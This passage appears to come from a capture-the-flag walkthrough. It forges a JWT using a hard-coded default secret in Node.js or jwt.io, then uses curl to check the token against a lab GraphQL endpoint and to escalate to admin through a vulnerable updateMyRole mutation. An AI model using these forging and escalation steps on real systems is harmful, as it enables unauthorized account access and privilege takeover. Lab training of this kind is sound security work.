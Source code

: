 #### Method 2: Using Node.js
```javascript
const jwt = require('jsonwebtoken');

const secret = 'your-super-secret-jwt-key-change-this-in-production';
const payload = {
    userId: 1,
    iat: Math.floor(Date.now() / 1000),
    exp: Math.floor(Date.now() / 1000) + 3600
};

const forgedToken = jwt.sign(payload, secret);
console.log('Forged JWT Token:', forgedToken);
```

#### Method 3: Using jwt.io
1. Go to [jwt.io](https://jwt.io)
2. Set algorithm to HS256
3. Set payload: `{"userId":1,"iat":1640995200,"exp":1641600000}`
4. Set secret: `your-super-secret-jwt-key-change-this-in-production`
5. Copy the generated token

### Step 4: Test Authentication

Verify the forged token works:

```bash
curl -X POST https://4000-ihbuvsewwq89vw5dzkq46-278bf4c2.manus.computer/graphql \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjEsImlhdCI6MTY0MDk5NTIwMCwiZXhwIjoxNjQxNjAwMDAwfQ.Xy5mGj4mJonJvgSXfBoOCqM6hNPN62iSqtrldODJPc0" \
  -d '{"query": "query { me { id username role } }"}'
```

**Expected Response**:
```json
{
  "data": {
    "me": {
      "id": "1",
      "username": "ctf_user",
      "role": "user"
    }
  }
}
```

### Step 5: Escalate Privileges

Use the vulnerable `updateMyRole` mutation:

```bash
curl -X POST https://4000-ihbuvsewwq89vw5dzkq46-278bf4c2.manus.computer/graphql \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer YOUR_FORGED_TOKEN" \
  -d '{"query": "mutation { updateMyRole(newRole: admin) { id username role } }"}'
```
